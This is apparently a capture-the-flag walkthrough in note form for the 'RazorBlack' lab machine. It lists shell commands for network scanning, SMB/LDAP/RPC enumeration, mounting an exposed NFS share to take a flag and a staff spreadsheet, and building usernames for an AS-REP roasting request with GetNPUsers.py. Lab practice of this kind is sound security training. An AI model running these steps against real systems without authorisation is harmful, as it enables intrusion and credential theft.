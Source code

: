 # RazorBlack - Medium

```shell
ping -c 3 10.10.59.156
#machine responds to ping

nmap -T4 -p- -A -v 10.10.59.156

sudo vim /etc/hosts
#map ip to raz0rblack.thm

smbclient -L \\\\10.10.59.156
#no shares listed

#enumerating ldap
ldapsearch -H ldap://10.10.59.156 -x

ldapsearch -H ldap://10.10.59.156 -x -s base namingcontexts
#shows namingcontexts

ldapsearch -H ldap://10.10.59.156 -x -b "DC=raz0rblack,DC=thm"
#no output

rpcclient -U "" -N 10.10.59.156
#we can connect
#but any command gives Access Denied

enum4linux 10.10.59.156
#nothing significant

crackmapexec smb 10.10.59.156
#gives host name and domain name

#enumerate port 2049
showmount -e 10.10.59.156
#this shows that we can mount /users

sudo mkdir /mnt/users

sudo mount -t nfs 10.10.59.156:/users /mnt/users

ls -la /mnt/users

sudo cat /mnt/users/sbradley.txt
#Steven flag

echo "sbradley" > usernames.txt
#make note of the usernames enumerated

sudo cp /mnt/users/employee_status.xlsx .
#copies xlsx file to current directory

sudo chmod 777 employee_status.xlsx
#we can now view it
#this can be viewed in Windows or online platforms

vim names.txt
#list names from xlsx file

vim usernames.txt
#change names to usernames using observed pattern

GetNPUsers.py -dc-ip 10.10.59.156 raz0rblack.thm/ -usersfile usernames.txt -request
```